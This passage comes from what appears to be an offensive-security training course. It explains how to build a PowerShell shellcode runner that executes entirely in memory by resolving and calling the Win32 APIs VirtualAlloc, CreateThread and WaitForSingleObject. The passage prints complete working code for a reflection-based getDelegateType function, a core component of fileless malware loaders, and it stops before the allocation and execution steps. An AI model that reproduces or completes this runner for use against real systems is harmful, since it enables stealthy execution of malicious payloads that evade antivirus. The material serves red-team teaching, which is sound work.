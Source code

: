 Answer

## 6.2.3. Reflection Shellcode Runner in PowerShell

Now we can leverage this powerful PowerShell reflection technique to invoke Win32 APIs from code that executes entirely in memory. Let's translate our simple proof-of-concept into a full-fledged shellcode runner.

Since we are going to call three different Win32 APIs (_VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_), we'll rewrite the portion of code that creates the delegate type into a function so we can call it multiple times.

We'll also slim down the code, eliminating unneeded variables to produce the smallest and most efficient code possible.

We've named this function _getDelegateType_, and it accepts two arguments including the function arguments of the Win32 API given as an array and its return type. Our previous code is built into three blocks. The first block creates the custom assembly and defines the module and type inside of it. The second block sets up the constructor, and the third sets up the invoke method. Finally, we invoke the constructor and the delegate type is returned to the caller.

Here's the complete code:

```
function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}
```

> Listing 26 - Method wrapper to create a delegate type

Together with _LookupFunc_, we'll resolve and call _VirtualAlloc_ using the same arguments as in the previous cases. We'll use _LookupFunc_ to search Kernel32.dll for the Win32 _VirtualAlloc_ API:
